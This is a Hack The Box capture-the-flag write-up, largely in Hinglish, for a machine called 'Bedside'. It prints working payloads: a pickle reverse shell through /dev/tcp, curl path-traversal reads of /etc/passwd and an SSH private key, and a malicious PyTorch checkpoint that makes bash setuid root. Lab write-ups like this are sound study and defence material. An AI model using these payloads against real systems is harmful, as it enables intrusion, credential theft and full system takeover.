

# Bedside

> **HTB · Linux · Medium · Rating 4.6/4.3 · Points 30** · IP `10.129.55.47` · Domain `bedside.htb`
> Flags: `user.txt` ✅ · `root.txt` ✅ · Solved: 2026-10-03



---

## 1. Recon

```bash
nmap -p- -sV --min-rate 5000 -Pn 10.129.55.47
```

```text
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 13
80/tcp   open  http    Apache 2.4.68
3000/tcp filtered       (localhost / docker-gateway only — outside se nahi dikhta)
```

Vhost fuzz (main site pe kuch nahi, hidden vhost dhoondna tha):

```bash
ffuf -u http://bedside.htb -H "Host: FUZZ.bedside.htb" \
  -w /usr/share/wordlists/dirb/common.txt -fc 301,404 -ac -t 200
# research.bedside.htb  [Status: 200]
```

Hosts: `127.0.0.1 bedside.htb research.bedside.htb` (container mein target IP).

**research.bedside.htb** — Python upload portal:
- Header: `X-Powered-By: pdfminer.six`
- Form field: `uploadFile`
- Whitelist ext: `jpeg jpg png bmp tiff dcm pdf gz zip` (case-insensitive)
- MIME **magic ↔ extension** validated (`MIME type mismatch. Unable to upload file to destination /var/www/research.bedside.htb/uploads` — yeh path leak exploit ke liye chahiye tha)
- Filenames sanitized (path strip, special chars → `_`), `/uploads/` listing 403, `*.php` blanket-403
- Koi GET/POST param nahi, koi hidden path/backup nahi mila

---

## 2. RCE — CVE-2025-64512 (pdfminer.six < 20251230)

**Why:** `CMapDB._load_data()` `<name>.pickle.gz` ko **`pickle.loads()`** se load karta hai. PDF font ke `/Encoding` mein **absolute path** (`#2F` = `/` ke roop mein escaped) dene se cmap directory bypass hoti hai → hamari uploaded pickle load hoti hai.

**Trigger:** `/app/pdf_watcher.py` (root-owned) har 30s `uploads/*.pdf` par `pdf2txt.py` chalata hai → pdf2txt parse karte hi CMap load → pickle unpickle → `os.system`.

Two-file exploit (stdlib version — `requests` nahi tha, isliye `urllib` se likha):

```python
# exploit_bedside.py <LHOST> <LPORT>   — full file: writeups/bedside/exploit_bedside.py
class RCE:
    def __reduce__(self):
        cmd = f"setsid bash -c 'bash -i >& /dev/tcp/{LHOST}/{LPORT} 0>&1' &"
        return (os.system, (cmd,))

# trigger.pdf ka font:
#   /Encoding /#2Fvar#2Fwww#2Fresearch.bedside.htb#2Fuploads#2Fsh
# = /var/www/research.bedside.htb/uploads/sh
```

Steps:
1. `sh.pickle.gz` upload — **asli gzip** hona zaroori (magic check `1f 8b`)
2. `trigger.pdf` upload
3. Watcher (≤30s) → reverse shell

Listener: Kali image mein `nc` nahi tha → chhota Python TCP listener (`listener.py`: accept → log `/tmp/shell.log`, commands FIFO `/tmp/f` se).

```text
[+] shell from ('10.129.55.47', 59226)
datawrangler@data-wrangler:/app$
```

```text
id        → uid=988(datawrangler) gid=1001(dataops)   # no sudo binary
ls /      → .dockerenv  ⇒ Docker container
/app      → pdf_watcher.py + requirements.txt (pdfminer.six==20250506)
user.txt  → container mein KAHIN NAHI (host par hai — red herring)
```

---

## 3. Pivot — Container → Host (Path Traversal on :3000)

Container se docker gateway scan kiya — **`172.17.0.1:3000`** par host ka "Bedside Clinic – Image Viewer" chal raha tha (wahi port jo outside se `filtered` tha). Static file server **directory traversal** vulnerable hai.

> **Gotcha:** curl `../` ko normalize kar deta hai → flag `--path-as-is` dena padta hai.

```bash
# datawrangler shell se:
curl -s --path-as-is http://172.17.0.1:3000/../../../../etc/passwd
curl -s --path-as-is http://172.17.0.1:3000/../../../../home/developer/user.txt
curl -s --path-as-is http://172.17.0.1:3000/../../../../home/developer/.ssh/id_rsa
```

```text
user.txt  → 055707cf5b8e4b7e7ffc2b49b2837c1d          ← USER FLAG
id_rsa    → developer ki ed25519 private key (key comment: developer@bedside)
```

Kali par key save → `chmod 600` → `ssh -i dev_key developer@10.129.55.47` (MOTD: *Bedside Clinic Network* banner).

---

## 4. Privesc — sudo + PyTorch `torch.load` RCE

```text
developer$ sudo -l
    (ALL) NOPASSWD: /usr/bin/python3 /opt/trainer/bedside_trainer.py
```

**Why vulnerable:** trainer MONAI `CheckpointLoader` use karta hai, jo internally

```python
torch.load(load_path, ..., weights_only=False)   # = pickle.loads
```

call karta hai. Matlab `/datastore/checkpoints/*.pt` mein rakhā malicious pickle **root** context mein unpickle hoga.

`.pt` format = ZIP containing `archive/data.pkl` + `archive/version` (magic `50 4b 03 04`):

```python
# build_evil_pt.py — writeups/bedside/build_evil_pt.py
class RCE:
    def __init__(self, cmd): self.cmd = cmd
    def __reduce__(self): return (os.system, (self.cmd,))

payload = pickle.dumps({"model": RCE("chmod +s /bin/bash")}, protocol=2)
with zipfile.ZipFile("checkpoint_epoch_99.pt", "w", zipfile.ZIP_STORED) as z:
    z.writestr("archive/data.pkl", payload)
    z.writestr("archive/version", "3\n")
```

### Barriers + solutions

| Barrier | Mechanism | Solution |
|---|---|---|
| Trainer ko image chahiye `/datastore/processed/` mein | warna kuch train hi nahi hota | datawrangler se 1×1 PNG (base64) drop kiya |
| Watcher `staging/*.txt` bharta rehta hai | allowed-file list corrupt hoti | background cleanup loop (`rm *.txt` har 0.3s) |
| `.pt` plain pickle nahi chalega | torch ZIP structure maangta hai | upar wala ZIP builder |

### Execution

```bash
# Kali: python3 -m http.server 8000
# datawrangler shell:
curl -o /datastore/checkpoints/checkpoint_epoch_99.pt http://<LHOST>:8000/checkpoint_epoch_99.pt
head -c4 checkpoint_epoch_99.pt | od -An -tx1    # 50 4b 03 04 ✓
(while true; do rm -f /datastore/staging/*.txt /datastore/processed/*.txt; sleep 0.3; done &)

# developer:
sudo /usr/bin/python3 /opt/trainer/bedside_trainer.py
# TypeError: Expected state_dict ... ← EXPECTED: pickle already fired
ls -la /bin/bash
# -rwsr-sr-x 1 root root 1298416 ...  ← SETUID
bash -p -c 'id; cat /root/root.txt'
# uid=1000(developer) ... euid=0(root)
# 68e72776c9e2a1aec7da807831da081c   ← ROOT FLAG
```

---

## 5. Lessons / Notes

- **VPN:** galat `.ovpn` (Arena server 686 vs Machines 251) par machine sab `filtered` dikhta hai. Sahi config: `htb vpn download <server_id>` → `htb vpn status` mein `Server ID: 251` verify karo.
- **Upload MIME magic:** text file ko `.gz` naam se server reject karega — `gzip -c` se asli gzip banao.
- **Traversal ke liye** `curl --path-as-is` zaroori hai.
- **Fix:** pdfminer.six ≥ **20251230**; `torch.load(weights_only=True)`; path canonicalization on :3000.
- Payload/scaffolding scripts: `exploit_bedside.py`, `listener.py`, `build_evil_pt.py` (isi folder mein).
